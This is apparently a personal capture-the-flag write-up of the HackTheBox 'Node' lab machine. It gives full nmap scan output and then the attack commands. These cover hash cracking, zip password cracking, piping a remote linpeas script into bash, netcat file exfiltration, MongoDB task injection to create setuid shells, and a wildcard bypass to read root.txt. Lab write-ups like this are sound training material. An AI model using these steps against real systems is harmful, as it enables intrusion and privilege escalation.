

Using autorecon to enumerate:
```
# Nmap 7.94SVN scan initiated Sun Feb 25 13:26:45 2024 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Downloads/node/results/10.10.10.58/scans/_full_tcp_nmap.txt -oX /home/kali/Downloads/node/results/10.10.10.58/scans/xml/_full_tcp_nmap.xml 10.10.10.58
Nmap scan report for 10.10.10.58
Host is up, received user-set (0.042s latency).
Scanned at 2024-02-25 13:26:58 IST for 138s
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE            REASON         VERSION
22/tcp   open  ssh                syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCwesV+Yg8+5O97ZnNFclkSnRTeyVnj6XokDNKjhB3+8R2I+r78qJmEgVr/SLJ44XjDzzlm0VGUqTmMP2KxANfISZWjv79Ljho3801fY4nbA43492r+6/VXeer0qhhTM4KhSPod5IxllSU6ZSqAV+O0ccf6FBxgEtiiWnE+ThrRiEjLYnZyyWUgi4pE/WPvaJDWtyfVQIrZohayy+pD7AzkLTrsvWzJVA8Vvf+Ysa0ElHfp3lRnw28WacWSaOyV0bsPdTgiiOwmoN8f9aKe5q7Pg4ZikkxNlqNG1EnuBThgMQbrx72kMHfRYvdwAqxOPbRjV96B2SWNWpxMEVL5tYGb
|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKQ4w0iqXrfz0H+KQEu5D6zKCfc6IOH2GRBKKkKOnP/0CrH2I4stmM1C2sGvPLSurZtohhC+l0OSjKaZTxPu4sU=
|   256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB5cgCL/RuiM/AqWOqKOIL1uuLLjN9E5vDSBVDqIYU6y
3000/tcp open  hadoop-tasktracker syn-ack ttl 63 Apache Hadoop
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| hadoop-tasktracker-info: 
|_  Logs: /login
|_http-favicon: Unknown favicon MD5: 30F2CC86275A96B522F9818576EC65CF
|_http-title: MyPlace
| hadoop-datanode-info: 
|_  Logs: /login
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized|phone|storage-misc
Running (JUST GUESSING): Linux 3.X|4.X (90%), Crestron 2-Series (86%), Google Android 4.X (86%), HP embedded (85%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/o:google:android:4.0 cpe:/h:hp:p2000_g3
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.10 - 4.11 (90%), Linux 3.12 (90%), Linux 3.13 (90%), Linux 3.13 or 4.2 (90%), Linux 3.16 (90%), Linux 3.16 - 4.6 (90%), Linux 3.18 (90%), Linux 3.2 - 4.9 (90%), Linux 3.8 - 3.11 (90%), Linux 4.2 (90%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=2/25%OT=22%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=65DAF354%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=109%TI=Z%II=I%TS=8)
SEQ(SP=102%GCD=2%ISR=109%TI=Z%II=I%TS=8)
OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)
WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)
ECN(R=Y%DF=Y%TG=40%W=7210%O=M53CNNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 198.840 days (since Thu Aug 10 17:20:22 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   42.78 ms 10.10.14.1
2   42.76 ms 10.10.10.58

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 25 13:29:16 2024 -- 1 IP address (1 host up) scanned in 151.43 seconds

```
Trying gobuster results in some kind of error:

Now setting up a proxy through burp suite:


Now using gobuster we get this:

This doesn't occur when using our browser so the user agent is being filtered.
The user agent of the browser:

Now using -a in gobuster to set user agent:
`gobuster dir -u http://localhost:8081 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`
It still doesn't work
So using sitemap from burp suite to check we find app.js:

Checking  http://10.10.10.58:3000/partials/admin.html
Found :

Checking the api folder in site map:
Request:

Response:

We get the password hashes
But checking response for /api/users/ we get:

# Exploitation
Now trying to crack it:
myP14ceAdm1nAcc0uNT   :           manchester
Now trying to login:

Now we get a myplace.backup file
Judging the text it is base64 encoded so decoding and outputting to a file:
`base64 -d myplace.backup > unknown`
Using file command to check type:
`file unknown`

It is a zip file.
But it has a password:
We found the password using fcrackzip dictionary attack!
`fcrackzip -D -p '/home/kali/Documents/rockyou.txt' backup.zip`

Now we have the sourcecode:

Searching for keyword password in the source code:
`grep -iR password .| less `
Nothing much usefuil.

Now we found the mongodb cred in app.js.

mark: **5AYRft73VtFpc84k**
Could try this in ssh.
And we get in:
Now running linenum:
`curl 10.10.14.22/linpeas.sh | bash`

Seeing processes we find a weird one:

Using the password:
`mongo -p -u mark scheduler`


Using mongo to make an object now:
``db.tasks.insert( { "cmd": "cp /bin/dash /tmp/ippsec; chmod 6755 /bin/dash;" })``
This sets it to run as user tom
`db.tasks.insert({"cmd" : "chmod u+s /tmp/ippsec"})`

Now we find that it executed.
So checking running processes:
`ps aux | grep sched`


It executed and running:
`/tmp/ippsec -p`
Gets us a shell as tom:

Now running linpeas with `curl 10.10.14.22/linpeas.sh | bash`

We find an suid binary!:

Now we see that we are in marks group:

So changing the permissions with mongo:
`db.tasks.insert({"cmd": "chown tom:admin /tmp/ippsec; chmod 6755 /tmp/ippsec;"})`

Now running /tmp/ippsec:

We are in the admin group


Now transfering the `/usr/local/bin/backup` file with netcat
- Attacker:
	`nc -nvlp 8082 > backup`
- Target
	`nc 10.10.14.22 8082 < /usr/local/bin/backup`
In kali:
We had noticed a backup key in app.js:

In tom's shell:
`/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /tmp/fuck > test`

`cat test | base64 --decode > test-decoded`

`file test-decoded`

`unzip test-decoded`

`ltrace /usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /../../etc > test`

```
strstr("/tmp", "..")                             = nil
strstr("/tmp", "/root")                          = nil
strchr("/tmp", ';')                              = nil
strchr("/tmp", '&')                              = nil
strchr("/tmp", '`')                              = nil
strchr("/tmp", '$')                              = nil
strchr("/tmp", '|')                              = nil
strstr("/tmp", "//")                             = nil
strcmp("/tmp", "/")                              = 1
strstr("/tmp", "/etc")                           = nil
strcpy(0xff98a1ab, "/tmp")                       = 0xff98a1ab
```

strstr: returns pointer to first occurrence of str2 in str1

strchr: returns pointer to first occurrence of char in str1

strcmp: returns 0 if str1 is same as str2

Wildcards are not checked so:
`/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /r**/r**t.txt > root`

`cat root | base64 --decode > root-decoded`
`unzip root-decoded`

Then get the root.txt